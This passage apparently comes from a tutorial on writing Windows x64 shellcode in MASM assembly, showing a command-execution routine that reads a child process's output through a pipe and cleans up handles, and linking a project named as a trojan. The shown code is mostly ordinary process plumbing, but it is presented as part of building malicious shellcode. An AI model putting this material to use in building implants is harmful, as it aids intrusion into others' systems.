```asm
            jmp _error
        .endif

        ; Close the write end of the pipe before reading from the read end
        invoke CloseHandle, h_stdout_write
        .if eax == 0
            jmp _error
        .endif

        ; Read the process output
        ; Note: This only handles the first 1024 bytes
        invoke ReadFile, h_stdout_read, addr pipe_buffer, buffer_size - 1, addr bytes_read, 0
        .if eax == 0
            invoke GetLastError
            cmp eax, error_handle_eof
            je _done_reading
            jmp _error
        _done_reading:
            jmp _success
        .endif

        mov eax, bytes_read
        mov dword ptr [status], eax
        invoke RtlCopyMemory, out_buffer, addr pipe_buffer, bytes_read

        ; Wait for the child process to exit
        invoke WaitForSingleObject, p_info.hProcess, infinite

        _success:
            mov eax, bytes_read
            mov dword ptr [status], eax
            jmp _exit
        _error:
            mov dword ptr [status], status_failure
        _exit:
            .if p_info.hProcess != -1 && p_info.hProcess != 0
                invoke CloseHandle, p_info.hProcess
            .endif
            .if p_info.hThread != -1 && p_info.hThread != 0
                invoke CloseHandle, p_info.hThread
            .endif
            .if h_stdout_read != -1 && h_stdout_read != 0
                invoke CloseHandle, h_stdout_read
            .endif

            mov eax, dword ptr [status]
            ret
    system_exec endp
```

With all these pieces in place, we have almost everything we need to finish the shellcode. The full project code can be found at https://github.com/joshfinley/Trojan.Win64.Callisto.